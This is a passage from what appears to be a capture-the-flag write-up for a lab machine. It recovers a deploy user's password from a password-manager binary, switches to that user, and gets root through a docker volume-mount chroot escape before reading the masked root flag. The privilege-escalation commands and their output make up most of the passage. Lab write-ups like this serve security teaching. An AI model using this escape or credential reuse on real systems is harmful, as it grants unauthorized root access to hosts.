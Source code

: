 ```bash
$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

> Yes it worked! We now have the credentials of the user `deploy` (`deploy:Deploying@pp!`).
{: .prompt-info }

Switching to `deploy` now.
```bash
$ su deploy
Password: 
$ whoami
deploy
```

From the `Mattermost` chat we know that the deployment here is made with docker. The next step is to check if `docker` is available under the deployment account.

```bash
$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
$
```

Looks good! Check [gtfobins](https://gtfobins.github.io/gtfobins/docker/#shell) on how to get a shell to break out from restricted environments.

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
```

> Yay! Root!
{: .prompt-info }

## get second flag
```bash
# cd /root
# ls
root.txt
# cat root.txt
3******************************b
```

Pwned! <@:-) 
